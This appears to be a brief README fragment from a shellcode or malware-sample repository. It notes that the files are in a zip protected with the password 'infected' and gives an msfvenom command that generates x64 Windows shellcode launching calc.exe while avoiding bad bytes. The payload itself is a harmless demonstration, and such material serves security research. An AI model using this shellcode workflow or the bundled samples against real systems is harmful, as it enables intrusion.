 # Basic
The files are contained in a password protected zip file. Password: "infected"
```
// msfvenom --platform windows --arch x64  -p windows/x64/exec CMD=calc.exe -b '\x00\x0A\x0D' -f c
```
